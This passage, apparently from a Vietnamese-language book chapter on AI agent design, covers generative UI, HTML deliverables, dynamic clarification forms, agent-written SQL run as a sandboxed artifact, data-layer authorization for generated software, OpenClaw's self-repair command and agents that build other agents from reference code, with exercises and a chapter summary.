Một điểm dễ gây nhầm lẫn phổ biến là AG-UI (Agent-User Interaction, do CopilotKit đề xuất). Dù có tên gọi khá tương đồng, AG-UI không phải một UI description language mà là một **event and transport protocol** dùng để stream execution state của Agent—bao gồm messages, tool calls và state patches—về phía frontend; nó cũng có thể mang theo các UI payload như A2UI manifests. Cả hai mang tính bổ trợ cho nhau và không nên bị gộp chung vào cùng một nhóm declarative-interface.

Nguyên lý thiết kế cốt lõi của các protocol này là **security-first**: client duy trì một trusted component catalog (ví dụ: Card, Button, TextField, Table), và nếu catalog cùng renderer được thực thi chuẩn xác, Agent chỉ có quyền yêu cầu các component đã được định nghĩa sẵn trong catalog mà không thể inject mã tùy ý. Client sẽ render bằng các native component của chính nó, thay vì execute mã HTML tùy ý do Agent generate ra. Các protocol này thông thường cũng hỗ trợ **cross-platform rendering** (cùng một bản mô tả có thể render trên React, Flutter và native apps) cùng với **incremental generation** (chẳng hạn thông qua việc streaming JSONL để client render dữ liệu ngay khi nhận được).

Dĩ nhiên, hướng tiếp cận declarative phù hợp với các kịch bản tương tác chuẩn hóa (forms, tables, cards), trong khi đối với các nhu cầu đòi hỏi tính tùy biến cao (ví dụ: custom visualizations, game interfaces), direct code generation vẫn là lựa chọn linh hoạt hơn. Dưới đây là các ứng dụng cụ thể của cả hai pattern.

**Delivering Results with HTML: Thay thế Markdown Reports.** Generative UI không chỉ được ứng dụng trong quá trình tương tác mà còn đang định hình lại định dạng **deliverable** cuối cùng của Agent. Theo cách truyền thống, Agent hoàn thành task và bàn giao lại một Markdown report; tuy nhiên việc đọc lướt qua một tài liệu Markdown dàn trang tuyến tính không mang lại trải nghiệm tối ưu. Khi năng lực generate frontend code của Agent ngày càng nâng cao, xu hướng thực tế đang dịch chuyển sang việc để Agent trực tiếp tạo ra mã HTML. 

So với Markdown, các HTML deliverable sở hữu nhiều ưu thế vượt trội:
- Thứ nhất, **interactive demonstrations** cho phép người dùng quan sát cách hệ thống vận hành dưới dạng tương tác trực quan, giúp nắm bắt vấn đề ngay lập tức thay vì phải đọc các đoạn mô tả dài dòng bằng văn bản.
- Thứ hai, **better data visualization** cho phép người dùng khám phá dữ liệu thông qua chart cùng các interactive control để duyệt, filter và drill down vào chi tiết.
- Thứ ba, **continuously improvable deliverables** cho phép Agent liên tục cập nhật và mở rộng một website HTML xuyên suốt quá trình thực thi task, thay vì chỉ xuất ra một static artifact đơn thuần ở bước cuối cùng.

Lấy chính kinh nghiệm viết research paper của tác giả làm ví dụ: đối với mỗi research project, tác giả đều duy trì một interactive website[^ch5-4]. Nó vừa đóng vai trò là deliverable cuối cùng, vừa là một living document xuyên suốt quá trình nghiên cứu—tác giả để Agent liên tục cập nhật website này theo tiến độ của các experiment. Website này phục vụ ít nhất ba mục đích. Thứ nhất, **experiment data traceability**: dữ liệu cụ thể cho từng experiment, các prompt được sử dụng, cùng raw response của LLM đều có thể được kiểm tra chi tiết từng mục trên site; việc minh bạch hóa toàn bộ dữ liệu giúp dễ dàng phát hiện các vấn đề trong khâu xây dựng data, format và data distribution, đồng thời nhận diện được các systematic bias trong response của LLM hoặc điểm số từ judge. Thứ hai, **training metric monitoring**: site hiển thị trực tiếp training curve, giúp việc giám sát các **internal health metrics** của model trở nên dễ dàng và xác định xem quá trình training có đang diễn ra ổn định hay không. Thuật ngữ này được mượn từ y khoa: đây là các tín hiệu nội tại phản ánh liệu chính quá trình training có lành mạnh hay không—bao gồm training loss và validation loss, gradient norm, learning rate, perplexity của model khi emit token (thước đo độ "tự tin" đối với output của chính nó), và trong reinforcement learning là reward, KL divergence, cùng policy entropy. Chúng khác biệt so với các final outcome metric như task accuracy: tương tự như các chỉ số sinh lý trong một buổi khám sức khỏe tách biệt hoàn toàn với biểu hiện thể lực bên ngoài của một người, các internal health metric thường làm lộ diện các vấn đề—chẳng hạn như non-converging loss, exploding gradient, training collapse—từ sớm hơn rất nhiều. Thứ ba, **demonstrating system operation**: các visualization trực quan hóa cách toàn bộ system vận hành, cho phép người đọc nắm bắt kiến trúc của hệ thống do AI xây dựng chỉ trong nháy mắt.

[^ch5-4]: Website research project của tác giả có thể xem tại https://01.me/research/, nơi mỗi project đều có một interactive website được cập nhật liên tục.

**Clarifying User Intent.**

Khi các yêu cầu còn mơ hồ hoặc chưa đầy đủ, Agent bắt buộc phải đặt các câu hỏi làm rõ để thu thập thông tin còn thiếu. Các sản phẩm như OpenAI Deep Research thường thực hiện việc này thông qua text-based Q&A, nhưng hướng tiếp cận đó bộc lộ những giới hạn rõ rệt: hiệu suất kém do mỗi câu hỏi tiêu tốn một dialogue turn, dẫn đến việc mười điểm cần làm rõ có thể đòi hỏi tới mười round; đồng thời rất kém trong việc thể hiện dependency giữa các câu hỏi—chẳng hạn, điểm đến du lịch sẽ ràng buộc các phương thức di chuyển khả dụng—điều mà plain text rất khó biểu đạt mạch lạc.

Thông qua code generation, Agent có thể tạo ra các structured interactive interface để thay thế text-based Q&A. Hình 5-8 minh họa dynamic form generation process, cho thấy cách Agent chuyển đổi các câu hỏi làm rõ thành một structured interface có thể điền hoàn tất trong một lần duy nhất. Agent sinh ra một HTML form chứa nhiều loại input control—text box cho thông tin mở, dropdown menu cho các predefined option, checkbox cho việc chọn nhiều mục, và date picker để đơn giản hóa việc nhập thời gian. Các phiên bản nâng cao hơn có thể sử dụng JavaScript để tạo cascading form giúp ẩn/hiện các câu hỏi tiếp theo và cập nhật các option khả dụng tùy theo lựa chọn của user. User sẽ điền toàn bộ form trong một lần, loại bỏ nhiều dialogue round, đồng thời nhìn thấy rõ ràng toàn bộ thông tin được yêu cầu cùng mối quan hệ logic giữa các câu hỏi.




> **Experiment 5-12 ★★: Intent Clarification System with Dynamic Forms**
>
> **Experiment Goal**: Xác minh khả năng làm rõ User Intent của Agent thông qua việc tự động sinh dynamic HTML form.
>
> **Technical Approach**: Agent phân tích request của user, xác định các điểm cần làm rõ và sinh mã form với cascading logic. Frontend render form, user submit một lần duy nhất, sau đó Agent parse JSON data để tiếp tục task.
>
> **Acceptance Criteria**: User nhập "I want to book a flight to Beijing." Agent sinh ra một form với các field sau: departure city (text input), departure date (date picker), trip type (radio button cho one-way hoặc round-trip), và return date (chỉ hiển thị khi round-trip được chọn). User submit toàn bộ thông tin trong một lần duy nhất.
>

**Generating SQL Queries.**

Truy vấn database (Database querying) là một scenario mà code generation có thể tối ưu hóa đáng kể trải nghiệm tương tác. Phương pháp truy cập database truyền thống thường phụ thuộc vào các công cụ GUI hoặc viết SQL thủ công; cách tiếp cận đầu thao tác rất rườm rà, còn cách thứ hai lại đòi hỏi user phải có kiến thức chuyên môn. Một Agent có thể dịch natural language thành SQL, nhưng ở đây xuất hiện một design choice mang tính then chốt: liệu Agent nên tự execute query rồi mô tả lại kết quả bằng natural language, hay nên generate ra SQL dưới dạng một artifact để system execute và frontend hiển thị?

Cách tiếp cận đầu tiên nhìn qua có vẻ "thông minh" hơn nhưng lại cực kỳ kém hiệu quả—một query thực thi trên một table lớn có thể trả về hàng nghìn row. Việc bắt LLM phải đọc toàn bộ khối dữ liệu đó rồi mô tả lại bằng văn xuôi sẽ đốt rất nhiều token và thời gian; tệ hơn nữa, LLM rất dễ gặp lỗi (error-prone) khi "transcribe" dữ liệu. Một cách tiếp cận tối ưu hơn nhiều là **Artifact pattern**. Hình 5-9 minh họa workflow của một SQL query Agent: thay vì tự đọc data, Agent sẽ generate ra một SQL query và chuyển giao nó cho system như một **executable artifact** độc lập. System sẽ execute query này trực tiếp trên database và render kết quả dưới dạng bảng cho user. Nhờ đó, data flow đi thẳng từ database lên interface mà không cần đi qua LLM; LLM chỉ đảm nhận việc viết query chứ không bao giờ phải đọc và thuật lại hàng nghìn row dữ liệu. Hướng tiếp cận này vừa nhanh hơn, vừa đảm bảo độ chính xác cao hơn.

SQL và visualization code được generate tuyệt đối không được execute trực tiếp. Execution layer cần sử dụng database credentials có quyền read-only, parse cú pháp SQL, chỉ cho phép các câu lệnh `SELECT` đã được phê duyệt, đồng thời reject thẳng các câu lệnh DDL, DML cũng như multi-statement queries. Các giá trị do user cung cấp phải được bind dưới dạng server-side parameters, đi kèm với các giới hạn (limits) về query time, số lượng row trả về, các table được phép truy cập và date ranges. Visualization code phải được chạy bên trong một sandbox cô lập hoàn toàn với network và filesystem, đồng thời chỉ được trả về đúng result format đã được quy định. Artifact pattern giúp rút ngắn data path, nhưng nó không thể thay thế cho các cơ chế authorization check hay execution isolation.




Phát triển xa hơn, Agent có thể generate ra hai artifact kết hợp với nhau tạo thành một pipeline: một SQL query và visualization code, chẳng hạn như code dựng bar chart. Frontend sẽ truyền trực tiếp kết quả trả về từ SQL vào visualization code. LLM đảm nhiệm generate code nhưng hoàn toàn không can thiệp vào data path—đây chính là bản chất cốt lõi của tư duy xem code generation như một interface.

> **Thực nghiệm 5-13 ★★: Natural Language Interaction ERP Agent**
>
> Phần mềm ERP (Enterprise Resource Planning) là một system tối quan trọng của doanh nghiệp, thông thường sử dụng GUI interface nơi các thao tác phức tạp đòi hỏi rất nhiều lần click chuột. Một AI Agent có thể dịch các yêu cầu bằng natural language của user thành các SQL query, cho phép tự động hóa quá trình truy cập database.
>
> **Requirements:** Thiết lập một PostgreSQL database chứa hai table: (1) Employee table, bao gồm employee ID, name, department, level, hire date, resignation date (NULL biểu thị nhân viên hiện vẫn đang làm việc); (2) Salary table, bao gồm employee ID, pay date, salary (mỗi tháng một record). Agent cần tự động trả lời các câu hỏi sau:
>
> 1. Thâm niên làm việc trung bình (average employee tenure) của nhân viên là bao nhiêu?
> 2. Mỗi department hiện có bao nhiêu active employee?
> 3. Department nào có level nhân viên trung bình cao nhất?
> 4. Có bao nhiêu nhân viên mới gia nhập từng department trong năm nay và năm ngoái?
> 5. Mức lương trung bình của department A từ tháng 3 năm kia đến tháng 5 năm ngoái là bao nhiêu?
> 6. Năm ngoái department nào có mức lương trung bình cao hơn, A hay B?
> 7. Mức lương trung bình của nhân viên ở từng level trong năm nay là bao nhiêu?
> 8. Mức lương trung bình trong tháng gần nhất của các nhân viên có thâm niên dưới 1 năm, từ 1 đến 2 năm, và từ 2 đến 3 năm là bao nhiêu?
> 9. Top 10 nhân viên có mức tăng lương lớn nhất từ năm ngoái sang năm nay là ai?
> 10. Có trường hợp nào bị nợ lương (unpaid wages) không (nhân viên có làm việc trong một tháng cụ thể nhưng không có salary record nào cho tháng đó)?
>

**Dynamically Generating Software.**

Ứng dụng tối thượng của code generation là cho phép Agent tạo ra phần mềm hoàn toàn dynamic, from scratch. Dự án "Imagine with Claude" của Anthropic là một ví dụ điển hình mở đường cho xu hướng này: user đưa ra yêu cầu, Claude sẽ sinh ra frontend interface cùng interaction logic trong real-time; user tương tác trực tiếp với phần mềm vừa tạo, và Claude tiếp tục chỉnh sửa code để cho ra interface mới hiển thị kết quả. User được chứng kiến một ứng dụng hình thành từ con số không và liên tục tiến hóa.

Tuy nhiên, fully dynamic generation lại rất tốn kém chi phí tài nguyên và độ trễ cao—phù hợp để làm demo chứng minh năng lực công nghệ hơn là đưa vào production. Một hướng tiếp cận thực dụng hơn là **customize một framework có sẵn**. Mô hình "semi-custom" này vừa duy trì được độ ổn định của base software, vừa mở ra các khía cạnh chọn lọc để user kiểm soát. User có thể yêu cầu "đổi button sang màu xanh dương", "thêm menu phím tắt vào sidebar", hoặc "chuyển sang font chữ dễ đọc hơn"; Agent sẽ cập nhật frontend code, và HMR (Hot Module Replacement—cơ chế cập nhật các module bị ảnh hưởng mà không cần reload toàn bộ trang, thường giữ nguyên application state) sẽ áp dụng ngay lập tức các thay đổi đó. Một sản phẩm mang tính "one-size-fits-all" giờ đây trở thành trải nghiệm được may đo riêng cho từng user.

> **Experiment 5-14 ★★: Conversational Interface Customization System**
>
> **Experiment Goal**: Cho phép user customize interface của phần mềm tức thì thông qua đối thoại bằng natural language, đồng thời đánh giá xem liệu code generation kết hợp hot reload có mang lại personalized user experience hiệu quả hay không.
>
> **Technical Approach**: Xây dựng một ứng dụng chatbot cơ bản (frontend React và backend FastAPI), đồng thời chạy cả hai thành phần ở development mode có kích hoạt hot reload (React HMR và FastAPI reload). Trong quá trình trò chuyện, user đưa ra các yêu cầu customize UI (màu sắc, font, layout, vị trí component,...). Agent sẽ tự động chỉnh sửa code tương ứng. Cơ chế hot reload tự động phát hiện các file thay đổi, frontend recompile và refresh, giúp user thấy được các thay đổi trên interface theo real-time. Hệ thống hỗ trợ nhiều vòng iterative customization liên tiếp.
>

Dynamic software mang lại tính linh hoạt cao nhưng đồng thời cũng làm thay đổi toàn bộ tiền đề bảo mật (security premise) truyền thống. Trước đây, application business code được phát triển, review, test và deploy, sau đó duy trì trạng thái tương đối ổn định trong một khoảng thời gian. Do đó, các authorization check thường nằm ở application layer: business code sẽ quyết định trước xem user hiện tại có quyền read hoặc modify một record hay không, rồi mới gửi operation xuống database. Nhưng khi interface, workflow, và thậm chí cả data-access code đều có thể được một Agent generate hoặc rewrite bất cứ lúc nào, tầng đó không còn ổn định nữa. Code mới được generate có thể bỏ sót một authorization check tinh vi, để lộ một field vốn được ẩn trước đó, hoặc bypass một check hiện có thông qua một call path khác. Cho dù nguyên nhân là do lỗi generation thông thường hay do code độc hại sinh ra sau prompt injection, kết quả vẫn như nhau: permission boundary mà business code có nhiệm vụ duy trì có thể bị phá vỡ trong âm thầm.

Do đó, mục tiêu bảo mật cho dynamic software không thể là “đảm bảo AI viết chính xác mọi authorization check”. Thay vào đó, mục tiêu phải là: **các permission constraint vẫn không thể bị bypass ngay cả khi AI viết code sai**. Nếu các authorization check nằm bên trong business logic được generate động, chúng sẽ chia sẻ cùng một trust domain với chính đoạn code mà chúng cần ràng buộc. Prompt, test và code review có thể làm giảm error rate, nhưng chúng không thể bao quát toàn bộ mọi execution path sinh ra từ các lần generation tiếp theo, và không thể đóng vai trò như một security boundary cuối cùng.

Một kiến trúc vững chắc hơn sẽ **dịch chuyển trust boundary xuống data layer**. Application code được generate động có thể đảm nhiệm presentation, workflow và business orchestration, trong khi một cơ chế ổn định đã qua review bởi con người sẽ thực thi các quy tắc quyết định ai được phép làm gì với data nào. Database row-level security có thể giới hạn user chỉ truy cập các record thuộc tenant của chính họ; các constraint và validator có thể reject các illegal state; các controlled view, stored procedure hoặc data-access service chỉ expose những operation đã được phê duyệt. Mọi thao tác read và write cũng phải mang theo một **access context** được gắn kết bởi một trusted runtime, bao gồm user, tenant, role hoặc Agent identity. Generated code chỉ nhận được scoped identity này: nó không thể giả mạo identity hay lấy được một database credential có đặc quyền cao để bypass các rule. Ngay cả khi code bỏ qua authorization check của chính nó, data layer vẫn sẽ reject operation không hợp lệ đó.

Việc chuyển authorization xuống tầng dưới không đồng nghĩa với việc đưa toàn bộ business logic vào database. Application layer vẫn có thể thực hiện các pre-check để cung cấp fast feedback, nhưng data layer bắt buộc phải giữ quyền quyết định cuối cùng. Cùng một rule vừa có thể tối ưu trải nghiệm ở tầng trên, vừa đảm bảo tính an toàn cốt lõi ở tầng dưới. Sự đảm bảo đó cũng đòi hỏi mọi data-access path đều phải đi qua trusted data layer; generated code tuyệt đối không được phép kết nối trực tiếp để đi vòng qua lớp này. Kết quả là một ứng dụng có upper layer liên tục biến đổi, trong khi các permission constraint bất biến vẫn được bảo toàn tại một layer không bị rewrite sau mỗi lần generation. Đây chính là data layer trong three-layer guardrail framework của Chapter 1—tầng khó bị bypass nhất.

> **Experiment 5-15 ★★★: Permission-Embedded Data Objects cho Dynamic Software**
>
> **Experiment Goal**: Xây dựng một object store cho phép application code có thể được generate hoặc rewrite dynamically mà vẫn enforce được authorization và data integrity ngay tại data layer. Xác thực rằng generated code không thể vượt qua stable data boundary bằng cách bỏ qua một state-machine transition, ghi một out-of-range value, hoặc read across tenants.
>
> **Technical Approach**: Cung cấp một lớp Python object-store middleware bên trên PostgreSQL. Các data type tự khai báo permission rules, access context, validators, object relationships và reactions của chính chúng; mỗi thao tác read hoặc write object đều lần lượt đi qua permission and validation pipeline, persistence, các bước referential-integrity check, v.v.
>
> **Acceptance Criteria**: Một cập nhật hợp lệ vào hiring-pipeline thành công; việc bỏ qua một candidate state transition, ghi mức salary nằm ngoài position range, và read across tenants đều bị data layer từ chối.

### Code Tạo Ra Code: Agent Bootstrapping

Các phần trước đã theo dõi code generation trải dài qua hết domain này đến domain khác—từ mathematical reasoning đến document creation cho tới interface customization. Khi đẩy những năng lực này đến giới hạn tối đa, một câu hỏi tất yếu sẽ xuất hiện: liệu một Agent có thể dùng code generation để tạo ra một Agent khác?



**Agent Self-Repair: OpenClaw Doctor.**

Tiền đề cốt lõi đối với Agent bootstrapping là khả năng self-repair. Lệnh `doctor` trong OpenClaw hiện thực hóa năng lực này—nó có thể tự động phát hiện ba nhóm issue:

- **Configuration anomalies**: OAuth token hết hạn, legacy configuration format, port conflict
- **State issues**: Session lock file bị stale, thiếu plugin dependency
- **Service health issues**: Gateway không chạy, thiếu sandbox image

Sau đó, hệ thống tự động xử lý chúng thông qua một layered repair strategy: các safe fix (configuration normalization, dọn dẹp lock file) được thực thi tự động; các risky operation (restart service, force overwrite configuration) bắt buộc phải có sự xác nhận từ user.

Cần nhìn nhận thực tế rằng: các vấn đề có tần suất xuất hiện cao như expired tokens, stale lock files và port conflicts đều có detection rules rõ ràng cùng các action sửa lỗi cố định, và `doctor` **xử lý chúng trước tiên bằng các deterministic checks**, tương tự như một operations script truyền thống. Năng lực của Agent chỉ thực sự phát huy giá trị ở tầng thứ hai: đối với các sự cố phức tạp hơn nằm ngoài các rule đó, `doctor` sử dụng một LLM để phân tích error logs, đọc hiểu các file configuration, suy luận root causes và tạo ra một targeted repair plan. Các deterministic checks giải quyết triệt để những vấn đề phổ biến, trong khi LLM bao quát toàn bộ phần long tail; sự kết hợp của hai tầng này cho phép `doctor --fix` tự động xử lý một tỷ trọng lớn các gateway issues thông thường. Điểm mấu chốt biến đây thành một pattern "Agent repairing Agent" là Agent không thao tác trên một external system, mà can thiệp trực tiếp vào chính runtime environment của nó, nâng tầm cơ chế self-repair từ một chức năng system-adapter đơn thuần trở thành hạ tầng bootstrapping cốt lõi.

**Các Key Techniques để một Agent viết một Agent.**

Việc phát triển một Agent chất lượng cao khó hơn rất nhiều so với việc generate application code thông thường, bởi nó đòi hỏi sự am hiểu sâu sắc về các Agent architecture patterns, best practices và những common pitfalls. Nếu thiếu domain expertise này, ngay cả những code generation models mạnh mẽ nhất cũng có thể tạo ra các Agent mang những lỗi kiến trúc nghiêm trọng. Các lỗi phổ biến bao gồm:

1. **Ad hoc context management**: Không tuân thủ standard context format đã được phân tích ở Chương 2, nhồi nhét trajectories dưới dạng plain text vào context, bỏ qua việc tối ưu hóa KV Cache từ structured messages, và tạo ra các boundary-condition bugs trong các tool-call loops.
2. **Non-standard tool design**: Descriptions mơ hồ, thiếu các chỉ dẫn về usage boundary cùng các negative lists, và parameters không đi kèm ví dụ cụ thể.
3. **Outdated technology choices**: Xu hướng sử dụng các models và APIs phổ biến nhưng đã lỗi thời từ training data. Giải pháp: Duy trì một knowledge base chuẩn SOTA hoặc trang bị search capabilities cho Agent.
4. **Disconnection from the external ecosystem**: Sử dụng các deprecated APIs, các thư viện không còn được maintain, hoặc các flawed patterns.

Phương pháp hiệu quả nhất để giải quyết các vấn đề này không phải là cố gắng liệt kê toàn bộ rules vào prompt, mà là **cung cấp các Agent implementations chất lượng cao làm reference examples**, định hướng code generation Agent tiến hành chỉnh sửa dựa trên code mẫu thay vì viết lại từ đầu.

Ưu thế của example-based generation rất rõ ràng: bản thân example code đã mang sẵn các best practices. Một Agent tùy biến từ một validated implementation sẽ có tỷ lệ thành công cao hơn nhiều so với việc bắt đầu từ con số không, bởi vì implementation đã lưu giữ sẵn các lựa chọn kiến trúc chuẩn xác mà không đòi hỏi mọi rule phải được diễn giải chi tiết trong prompt.

Khi một Agent nhận task phát triển một Agent mới, trước hết nó nên sao chép chính source code của mình (hoặc các validated, high-quality implementations khác) rồi tiến hành các chỉnh sửa có mục tiêu: điều chỉnh system prompt để phù hợp với role mới, thay thế hoặc thêm bớt tools để tương thích với các functions mới, và tùy biến business logic trong khi vẫn bảo toàn architectural framework. Pattern "self-replication with adaptive modification" này đảm bảo Agent mới thừa hưởng toàn bộ lợi thế kỹ thuật cốt lõi, đồng thời cho phép tạo ra sự khác biệt hóa trên các phương diện cụ thể—tương tự như cơ chế sao chép gen kèm đột biến trong sinh học.

> **Experiment 5-16 ★★★: Phát triển một Agent có khả năng tạo ra các Agent khác**
>
> **Experiment Goal**: Xây dựng một Coding Agent với khả năng metaprogramming—khả năng viết code để tự sinh (generate) hoặc chỉnh sửa các chương trình khác—nhờ đó nó có thể tự động tạo ra các hệ thống Agent mới từ requirement của người dùng, đồng thời tuân thủ nghiêm ngặt các best practice.
>
> **Technical Approach**: Cung cấp cho Coding Agent các bản triển khai Agent mẫu chất lượng cao làm reference example (có thể sử dụng chính project `ch5/coding-agent`). Khi nhận task tạo một Agent mới, Agent trước tiên sẽ copy codebase mẫu này, sau đó thực hiện các chỉnh sửa có chủ đích (targeted modifications) dựa trên nhu cầu cụ thể của người dùng.
>
> **Acceptance Criteria**: Agent được sinh ra phải chạy thành công và hoàn thành các task cơ bản. Cần verify rằng Agent này sử dụng standard message format và tool-call protocol chuẩn, tích hợp các model và API được khuyến nghị hiện hành, đồng thời đảm bảo context và state management hoạt động chuẩn xác qua nhiều conversation turns. So sánh phương pháp generation from scratch với example-based modification để xác nhận rằng việc tinh chỉnh dựa trên code mẫu giúp tối ưu cả chất lượng lẫn efficiency.
>
>
> 
>
>

## Chapter Summary

Xuyên suốt chương này, chúng ta đã chứng minh một luận điểm cốt lõi: code không đơn thuần là công cụ để viết phần mềm—nó chính là ngôn ngữ cho tư duy hình thức hóa (formalized thinking) và khả năng biểu đạt chuẩn xác (precise expression) của một Agent.

Phần kỹ thuật xây dựng Harness (Harness engineering) đã đi đến một kết luận mang tính nền tảng: các Coding Agent đạt được độ hoàn thiện cao không phải chỉ vì các model sinh code (code generation models) vượt trội, mà vì hạ tầng kỹ thuật phần mềm (software engineering infrastructure) được tích lũy qua nhiều thập kỷ—bao gồm test suites, type systems, version control—đã tự nhiên tạo thành một Harness cực kỳ vững chắc. Kết luận này hoàn toàn có thể chuyển giao và áp dụng cho nhiều kịch bản Agent khác. 

Mặt khác, phần phân tích về failure và error recovery đã làm rõ khía cạnh đối lập của cùng một vấn đề: reliability của một Agent không được định đoạt bởi việc model có tạo ra lỗi hay không, mà phụ thuộc hoàn toàn vào việc liệu từng class failure có được thiết lập đầy đủ quy trình tương ứng cho detection, recovery, handover và termination path hay không.

Phần thứ hai đã chứng minh giá trị sâu rộng của code generation vượt ra ngoài phạm vi lập trình thuần túy, tương ứng với sáu chiều kích trong nội dung chính:

- **Thinking Tool**: Tận dụng symbolic computation và constraint solving để bù đắp các nhược điểm của probabilistic thinking
- **Business Rule Constraints**: Diễn đạt các business rules một cách rõ ràng, không nhập nhằng và thiết lập một deterministic safety backstop cho các irreversible operations, nơi giá trị của sự đảm bảo an toàn vượt xa chi phí triển khai
- **Multimedia Generation**: Khởi tạo nội dung multimodal như PPT và video thông qua cơ chế Proposer-Reviewer; việc lựa chọn giữa code generation và generative models phụ thuộc vào intrinsic complexity cũng như precision requirements của artifact
- **System Adapter**: Tự động bám sát sự phát triển định dạng (format evolution) để đạt được tự động hóa hoàn toàn trong quy trình log parsing và problem diagnosis
- **Generative UI**: Khởi tạo động (dynamically) các form, visualization và thậm chí toàn bộ ứng dụng có khả năng tùy biến (customizable applications), phá vỡ hoàn toàn các rào cản của plain text
- **Agent Bootstrapping**: Sử dụng code để sửa lỗi (repair) các Agent hiện có và tạo ra các Agent mới, cuối cùng hiện thực hóa khả năng một Agent có thể tự tạo ra các Agent khác

Giá trị của code đối với một Agent quy tụ về điểm cốt lõi này: nó vừa là phương tiện để hoàn thành task, vừa là cơ chế để tích lũy knowledge, tạo ra tools và tự hoàn thiện chính mình—một "meta-capability" đích thực.

Đến đây, chúng ta đã kết hợp context, knowledge, tools và coding capabilities vào foundational architecture của một general-purpose Agent, với code generation là meta-capability tổng quát nhất. Dẫu vậy, năm chương đầu tiên vẫn dựa trên giả định rằng Agent và thế giới bên ngoài hoạt động theo cơ chế luân phiên từng lượt (take turns acting). Chương 6 sẽ hoàn thiện mảnh ghép cuối cùng của phần “Building Agents” bằng cách mở rộng observation space và action space sang asynchronous events, voice, screen và thế giới vật lý; một khi mảnh ghép đó đã vào đúng vị trí, Chương 7 sẽ chuyển trọng tâm sang evaluation và continual improvement.

## Thought Questions

